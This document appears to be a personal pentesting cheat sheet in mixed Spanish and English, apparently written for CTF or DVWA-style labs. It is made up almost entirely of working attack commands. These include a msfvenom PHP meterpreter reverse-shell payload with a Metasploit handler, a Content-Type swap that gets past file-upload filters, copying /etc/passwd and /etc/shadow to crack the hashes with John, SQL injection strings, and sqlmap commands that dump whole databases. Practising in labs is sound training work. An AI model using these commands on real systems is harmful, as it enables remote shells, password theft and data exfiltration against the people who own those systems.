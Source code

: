 ## <span style="color: #3498db; font-size: 0.8em;"> upload files attack </span>
> Crear payload en exploit.php para subir al sitio web victima 
- msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1  LPORT=4444 -f raw >exploit.php
> Now run Metasploit and start a multi‐handler to listen to PHP reverse sessions.
- `msfconsole`
- `>use exploit/multi/handler`
- `>set payload php/meterpreter/reverse_tcp`
- `>options`
- `>set LHOST 192.168.*.*`
- `>run`
> subir el archivo y buscar la ruta para ejecutarlo en el navegador y validar en la consola de meterpreter la conexión


 >Medium level 
 - `100000
------WebKitFormBoundary12ZF6IVGPcAUFBR4
Content-Disposition: form-data; name="uploaded"; filename="exploit.php"
Content-Type: application/x-php`
- replace Content-Type: image/jpeg


## <span style="color: #3498db; font-size: 0.8em;"> Find file to all system  </span>

- `sudo find / -name root.txt 2>/dev/null`

## <span style="color: #3498db; font-size: 0.8em;"> scalate privileges with passwd and shadow  </span>

> Copy passwd and shadow registers on diferent files
- `cat /etc/passwd` - user information
- `sudo cat  /etc/shadow` - hash passwords
> merge files with unshadow comand

- `unshadow passwd.txt shadow.txt >fileJohn.txt `
- `john fileJohn.txt -w=/usr/share/wordlists/rockyou.txt`


## <span style="color: #3498db; font-size: 0.8em;"> sql injection  </span>

>sql injection basics

- `'OR 1=1 # `
- `'OR 1=1 --  `

> sqlmap with burnsuite query  save to req.txt

- `sqlmap -r req.txt --dbs`
- `sqlmap -r req.txt -D NameDataBase --tables`
- `sqlmap -r req.txt -D NameDataBase -T tableName --columns`
- `sqlmap -r req.txt -D NameDataBase -T tableName --dump-all`
- `sqlmap -r rep.txt -D blood --current-user`

